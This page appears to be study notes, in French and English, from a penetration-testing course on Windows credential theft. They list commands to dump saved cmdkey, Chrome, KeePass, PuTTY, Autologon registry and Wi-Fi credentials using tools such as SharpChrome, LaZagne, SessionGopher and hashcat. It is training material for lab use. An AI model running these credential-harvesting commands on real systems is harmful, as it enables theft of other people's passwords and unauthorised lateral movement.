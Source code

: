 # Further Credential Theft

***

### <mark style="color:red;">Cmdkey Saved Credentials</mark>

<mark style="color:green;">**Listing Saved Credentials**</mark>

{% hint style="warning" %}
La commande **`cmdkey`** permet de **créer, lister et supprimer des noms d’utilisateur et des mots de passe enregistrés**.\
Les utilisateurs peuvent vouloir enregistrer des identifiants pour un hôte spécifique, ou bien les utiliser pour des connexions via les **services de bureau à distance (Remote Desktop / RDP)** afin de se connecter à une machine distante **sans avoir à entrer le mot de passe à chaque fois**.

Cela peut nous aider :

* soit à effectuer un **mouvement latéral** vers un autre système avec un autre utilisateur,
* soit à **escalader les privilèges** sur la machine actuelle, en exploitant les **identifiants stockés d’un autre utilisateur**.
{% endhint %}

```cmd-session
cmdkey /list
```

<figure><img src="../../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

<mark style="color:green;">**Run Commands as Another User**</mark>

```powershell-session
runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

***

### <mark style="color:red;">Browser Credentials</mark>

<mark style="color:green;">**Retrieving Saved Credentials from Chrome**</mark>

{% code fullWidth="true" %}
```powershell-session
.\SharpChrome.exe logins /unprotect
```
{% endcode %}

{% hint style="warning" %}
Note: Credential collection from Chromium-based browsers generates additional events that could be logged and identified as `4983`, `4688`, and `16385`, and monitored by the blue team.
{% endhint %}

***

### <mark style="color:red;">Password Managers</mark>

<mark style="color:green;">**Extracting KeePass Hash**</mark>

{% code fullWidth="true" %}
```shell-session
python2.7 keepass2john.py ILFREIGHT_Help_Desk.kdbx 
```
{% endcode %}

<mark style="color:green;">**Cracking Hash Offline**</mark>

{% code fullWidth="true" %}
```shell-session
hashcat -m 13400 keepass_hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt
```
{% endcode %}

***

### <mark style="color:red;">Email</mark>

[MailSniper](https://github.com/dafthack/MailSniper).

***

### <mark style="color:red;">More Fun with Credentials</mark>

[LaZagne](https://github.com/AlessandroZ/LaZagne)

<mark style="color:green;">**Viewing LaZagne Help Menu**</mark>

{% code fullWidth="true" %}
```powershell-session
.\lazagne.exe -h
```
{% endcode %}

<mark style="color:green;">**Running All LaZagne Modules**</mark>

```powershell-session
.\lazagne.exe all
```

***

### <mark style="color:red;">Even More Fun with Credentials</mark>

[SessionGopher](https://github.com/Arvanaghi/SessionGopher)

<mark style="color:green;">**Running SessionGopher as Current User**</mark>

{% code fullWidth="true" %}
```powershell-session
Import-Module .\SessionGopher.ps1
 
Invoke-SessionGopher -Target WINLPE-SRV01
```
{% endcode %}

***

### <mark style="color:red;">Clear-Text Password Storage in the Registry</mark>

#### <mark style="color:green;">Windows AutoLogon</mark>

{% hint style="warning" %}
**Windows Autologon** est une fonctionnalité qui permet à un utilisateur de configurer son système d'exploitation Windows pour se connecter automatiquement à un compte utilisateur spécifique, sans nécessiter de saisie manuelle du nom d'utilisateur et du mot de passe à chaque démarrage. Cependant, une fois cette fonctionnalité configurée, le nom d'utilisateur et le mot de passe sont stockés dans le registre, en texte clair. Cette fonctionnalité est couramment utilisée sur des systèmes à utilisateur unique ou dans des situations où la commodité prime sur le besoin de sécurité renforcée.

Les clés de registre associées à **Autologon** se trouvent sous **HKEY\_LOCAL\_MACHINE** dans la ruche suivante, et peuvent être accessibles par des utilisateurs standards :
{% endhint %}

```cmd
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

<mark style="color:green;">**Enumerating Autologon with reg.exe**</mark>

{% code fullWidth="true" %}
```cmd-session
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```
{% endcode %}

{% hint style="danger" %}
`Note:` If you absolutely must configure Autologon for your windows system, it is recommended to use Autologon.exe from the Sysinternals suite, which will encrypt the password as an LSA secret.
{% endhint %}

#### <mark style="color:green;">Putty</mark>

{% hint style="info" %}
**Notez que les contrôles d'accès pour cette clé de registre spécifique sont liés au compte utilisateur qui a configuré et enregistré la session.**

* **Par conséquent, pour pouvoir la voir, il faudrait être connecté en tant que cet utilisateur et chercher dans la ruche `HKEY_CURRENT_USER`.**
* **Ensuite, si nous avions des privilèges administrateur, nous pourrions la trouver dans la ruche `HKEY_USERS` correspondant à cet utilisateur.**
{% endhint %}

```cmd
Computer\HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\<SESSION NAME>
```

<mark style="color:green;">**Enumerating Sessions and Finding Credentials:**</mark>

{% code fullWidth="true" %}
```powershell-session
reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions
```
{% endcode %}

{% code fullWidth="true" %}
```powershell-session
reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh 
```
{% endcode %}

In this example, we can imagine the scenario that the IT administrator has configured Putty for a user in their environment, but unfortunately used their admin credentials in the proxy connection. The password could be extracted and potentially reused across the network.

{% hint style="info" %}
For additional information on `reg.exe` and working with the registry, be sure to check out the [Introduction to Windows Command Line](https://academy.hackthebox.com/module/167/section/1623) module.
{% endhint %}

***

### <mark style="color:red;">Wifi Passwords</mark>

<mark style="color:green;">**Viewing Saved Wireless Networks**</mark>

```cmd-session
netsh wlan show profile
```

<mark style="color:green;">**Retrieving Saved Wireless Passwords**</mark>

```cmd-session
netsh wlan show profile ilfreight_corp key=clear
```
